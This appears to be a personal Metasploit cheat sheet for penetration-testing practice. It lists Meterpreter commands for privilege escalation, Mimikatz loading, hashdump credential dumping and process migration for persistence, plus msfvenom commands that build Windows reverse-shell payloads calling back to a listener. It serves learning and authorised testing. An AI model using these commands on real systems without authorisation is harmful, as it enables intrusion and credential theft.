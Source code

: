 ==================================
| Main process to use MetaSploit |
==================================

search 		-> To look for a module to use
use 		-> To load the module
options 	-> To view any options you need to set
set <options> 	-> Set the specified option
run 		-> Run the exploit

==========================
| Other usefull commands |
==========================

:: Channels


:: Information gathering
getuid						-> Get the current user
getprivs					-> Get the priveleges for the current user
sysinfo						-> Get info on the system

:: Kiwi/Mimikatz can be loaded into the session
load kiwi					-> help now shows more commands

:: Menu, go back to from session
background

:: Move/migrate to another process (for priveleges)
migrate -N <process name>

:: Passwords
hashdump					-> Dumps all the hashes available on a computer when the required priveleges are met.

:: Payloads
show payloads					-> When a module is selected it will list compatible payloads
set payload <id>				-> Selects the listed payload with the corresponding number.
set payload <name>				-> Selects the payload with the corresponding name.

:: Privelege escalataion (for Windows at least)
getsystem 					-> when in a meterpreter session

:: Quiting or closing a session
quit 				

:: Search exploits
use post/multi/recon/local_exploit_suggester 	-> Can be used to find any vulnerabilities on the system. Does need an active session.

:: Searching for modules
search <keyword 1> <kayword 2> ...

:: Sessions
sessions 					-> show all
sessions -i <id> 				-> select and go to session
sessions -u 					-> upgrade shel to meterpreter shell
sessions -k <id>				-> kill selected session

:: Shel creation after exploiting
shell

:: Shell conversion to Meterpreter
post/multi/manage/shell_to_meterpreter		-> Converts a regular shell to a meterpreter session

:: Show various possibilities (payloads/exploits etc.)
show payloads
show exploits
show -h

=====================
| Metasploit Module |
=====================

run post/windows/manage/migrate 
-> Run the migrate module that can be used to inject into another process to create persistence


=====================
| MSFVenom Commands |
=====================

msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.18.78.136 LPORT=443 -b '\x0a\x0d\x00' -f c

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe

msfvenom -l / --list formats			-> Show all available formats
msfvenom -l / --list payloads			-> Show all available payloads
msfvenom -e					-> Specifies the encoding format
msfvenom -f					-> Specifies the output format (extension)
msfvenom -o					-> Specifies the output location

=======================
| Database/workspaces |
=======================

:: Outside of Metasploit
systemctl start postgresql			-> Start postgreSQL used by Metasploit
sudo msfdb init					-> start Metasploit database

:: Inside metasploit
db_status					-> Check database status

:: Workspaces
workspace					-> List workspaces
workspace -a tryhackme				-> Add workspace
workspace default				-> Select workspace

set hosts -R					-> Settings an RHOSTS options as the one stored in the database
